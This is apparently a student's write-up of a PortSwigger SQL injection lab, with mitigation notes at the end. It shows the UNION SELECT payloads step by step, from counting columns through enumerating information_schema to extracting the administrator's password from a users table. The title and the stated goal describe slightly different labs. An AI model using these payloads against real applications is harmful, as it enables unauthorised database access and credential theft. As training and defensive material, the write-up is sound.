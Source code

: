 # SQL Injection - UNION Attack: querying the database type and version on MySQL and Microsoft

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

### 4. Retrieved the table names and column names

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```
This displayed several tables within the database including users_omjluk.

![burpsuite response](./misc-images/08-1.png)

' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_omjluk'--

![burpsuite response](./misc-images/08-2.png)

### 5. Retrieved the password of 'administrator'

```sql
' UNION SELECT username_wondnj,password_czpiww FROM users_omjluk WHERE username_wondnj='administrator'--
```

![burpsuite response](./misc-images/08-3.png)

Logged in as the administrator using the password retrieved.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve table and column names from "information schema".

---

## Notes

